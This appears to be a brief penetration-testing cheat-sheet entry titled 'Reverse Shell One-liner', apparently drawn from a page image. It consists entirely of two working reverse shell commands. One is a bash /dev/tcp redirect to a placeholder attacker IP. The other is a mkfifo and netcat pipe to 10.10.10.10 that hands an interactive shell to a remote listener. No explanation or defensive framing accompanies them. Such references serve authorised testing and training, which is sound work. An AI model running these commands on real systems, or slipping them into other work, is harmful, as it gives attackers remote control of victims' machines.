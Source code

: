 #### Reverse Shell One-liner
```
bash -i >& /dev/tcp/{attacker IP}/8080 0>&1
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```
